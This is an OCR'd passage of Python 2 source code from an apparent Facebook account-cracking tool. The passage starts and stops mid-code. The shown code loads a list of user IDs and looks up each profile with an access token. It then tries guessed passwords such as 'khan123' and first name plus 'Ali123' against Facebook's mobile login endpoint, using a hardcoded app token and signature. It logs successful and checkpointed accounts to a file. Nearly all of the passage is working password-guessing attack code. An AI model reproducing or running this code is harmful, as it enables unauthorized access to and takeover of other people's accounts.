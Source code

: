 		print logo
		print 42*"\033[1;96m="
		try:
			idlist = raw_input('\x1b[1;96m \x1b[1;93mEnter File Path  \x1b[1;91m: \x1b[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;96m \x1b[1;91mFile Not Found'
			raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;96m \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;96m \033[1;93mStarting \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('khan123')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name']+'Ali123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else: